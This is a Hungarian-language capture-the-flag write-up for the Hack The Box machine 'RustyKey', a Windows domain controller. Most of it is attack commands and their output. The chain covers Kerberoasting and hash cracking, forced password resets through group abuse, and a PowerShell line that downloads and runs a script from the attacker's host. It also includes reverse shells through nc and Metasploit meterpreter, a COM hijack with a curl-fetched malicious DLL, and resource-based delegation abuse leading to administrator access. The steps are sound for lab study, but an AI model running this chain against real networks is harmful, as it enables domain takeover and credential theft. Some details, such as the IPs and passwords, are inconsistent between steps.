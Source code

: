 **Platform:** Windows  
**IP:** 10.129.105.53  
**Difficulty:** Hard  
**Author:** NoSec

> 🚨 **Kövess élőben HTB-n — leakek, dropok és mély writeupok**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Ne olvasd. Csatlakozz._

---

## Recon

```bash
nmap -sC -sV -Pn 10.129.105.53
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 23:25 CEST
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 23:25 (0:00:01 remaining)
Nmap scan report for 10.129.188.219
Host is up (0.099s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-29 05:25:30Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m47s
| smb2-time: 
|   date: 2025-06-29T05:25:41
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.65 seconds
```

Kapunk alapból egy felhasználó jelszó párost a géphez, 

```
rr.parker / 8#t5HE8L!W3A
```

Hosts fájl szerkesztése

```bash
sudo nano /etc/hosts
10.129.105.53		rustykey.htb dc.rustykey.htb
```

Idő szinkron fontos, 

```bash
sudo rdate -n RUSTYKEY.HTB
```

## Bloodhound

```bash
bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -dc dc.rustykey.htb -gc dc.rustykey.htb -ns 10.129.105.53 --disable-autogc -c all --zip
```

Az IT-COMPUTER3-nak van joga hozzáadnia magát a helpdeskhez, a helpdesknek ForceChangePassword joga van BB.Morgan felett, ezt fogjuk kihasználni.

Szerezzük meg a jelszavát

```bash
impacket-GetUserSPNs 'rustykey.htb/rr.parker:8#t5HE8L!W3A' -k -request -dc-ip 10.129.105.53 -dc-host dc.rustykey.htb -usersfile users.txt -outputfile comp3.hash
```

Hashcatel törjük fel

```bash
hashcat -m 13100 comp3.hash /usr/share/wordlists/rockyou.txt
```

Jelszó: Rus<pass>

## Csoporthoz adás + jelszómódosítás

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```
```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password BB.MORGAN 'Password1234'
[+] Password changed successfully!
```
```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password EE.REED 'Password123'
[+] Password changed successfully!
```

## Protected Objects törlés

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT'
[-] IT removed from PROTECTED OBJECTS
```

## Kerberos conf beállítás

```bash
sudo nano /etc/krb5.conf
```

```
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
    rdns = false

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

## User flag

```bash
impacket-getTGT 'RUSTYKEY.HTB/BB.MORGAN:Password1234'
export KRB5CCNAME=BB.MORGAN.ccache
```
```bash
evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
```
```bash
└─$ evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> ls
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> cd ..
*Evil-WinRM* PS C:\Users\bb.morgan> cd Desktop
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> ls


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---        6/29/2025  12:56 PM             34 user.txt
```

## Reverse shell ee.reed userrel

```bash
rlwrap nc -lvnp 5566
```

```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.90:8888/Invoke-RunasCs.ps1'); Invoke-RunasCs -Username ee.reed -Password Password123! -Command cmd.exe -Remote 10.10.14.90:5566
```

## Web Delivery és COM hijack, mm.turner reverse shell

```bash
rlwrap msfconsole -q -x 'use exploit/multi/script/web_delivery; set SRVPORT 8899; set LPORT 8989; set LHOST tun0; set TARGET PSH; set PAYLOAD windows/x64/meterpreter/reverse_tcp; run'
```

Miután ez lefutott, futtatjuk a célgépen a generált PS parancsot.

```bash
msfvenom -p windows/x64/exec CMD='<base64_encoded_ps>' EXITFUNC=none -f dll > x.dll
```

```bash
curl http://10.10.14.90:8888/x.dll -o \programdata\x.dll
```

```bash
reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\\programdata\\x.dll" /f
```
```bash
rundll32.exe C:\\programdata\\x.dll,DllRegisterServer
```

## RBCD

```bash
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```
```bash
impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip $ip -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rus<pass>'
```
```bash
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

## Root flag megszerzése

```bash
timpacket-smbexec -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 00BA-0DBE

 Directory of C:\Users\Administrator\Desktop

06/24/2025  10:00 AM    <DIR>          .
06/24/2025  10:00 AM    <DIR>          ..
06/30/2025  07:32 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,911,215,616 bytes free
               
type C:\Users\Administrator\Desktop\root.txt
```

---
> Kövess további writeupokért, real-time leakekért és tanulási anyagokért:
> **👉 [https://t.me/nosecpwn](https://t.me/nosecpwn)**


